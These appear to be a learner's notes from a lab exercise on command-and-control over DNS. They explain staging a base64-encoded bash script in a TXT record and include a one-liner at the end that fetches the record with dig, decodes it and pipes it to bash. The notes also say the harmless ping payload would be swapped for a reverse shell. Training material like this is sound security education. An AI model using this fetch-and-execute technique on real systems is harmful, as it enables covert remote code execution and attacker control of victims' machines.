 ### C2 Communications over DNS
- C2 frameworks use the DNS protocol for ***communication***, such as sending a command execution request and receiving execution results over the DNS protocol.
- They also use the `TXT DNS` record to run a dropper to download extra files on a victim machine.
- This section simulates how to execute a bash script over the DNS protocol.
- We will be using the web interface to add a `TXT` DNS record to the `tunnel.com` domain name.


<u>Example</u>:
- We have a script that needs to be executed in a victim machine. Steps:

		- 1st: Encode the script as a Base64 representation
		- 2nd: Create a TXT DNS record of the domain name you control with the content of the encoded script.

- The example script:
```bash
#!/bin/bash 
ping -c 1 test.thm.com
```

	- Executes the ping command that sends an ICMP packet to 'test.tunnel.com'. This is the script we will replace with say, a reverse shell connecting back to our attacker's machine.

		- 3rd: Save the script as /tmp/script.sh
		- 4th: encode it with Base64 as follows:

```markup
thm@victim2$ cat /tmp/script.sh | base64 
IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=
```

- Now that we have the `Base64` representation of the script, we add it as a `TXT` DNS record to the domain we control, which in this case : `tunnel.com`.
- You can add it through the web interface we provide `http://10.10.228.185` or `https://10-10-228-185.p.thmlabs.com/`.

![](/assets/img/Pasted image 20230111015030.png)

	- The "Value" is the base64 encoding of the script's content.
	- The script came from the Attacker's machine.
	- The attacker can modify DNS records.

- Once we've added it, let's confirm that we successully created the script's DNS record by asking the local DNS server to resolve the TXT record of the `script.tunnel.com`.
- If everything is setup correctly, we should receive the content we added in the previous step:
![](/assets/img/Pasted image 20230111014907.png)

`thm@victim2$ dig +short -t TXT script.tunnel.com`
![](/assets/img/Pasted image 20230111015304.png)

- We used the dig command to check the `TXT` record of our `DNS` record that we added in the previous step.
- As a result, we can get the content of our script in the `TXT` reply.
- Now, we confirmed the `TXT` record. Let's execute it:
`thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash`
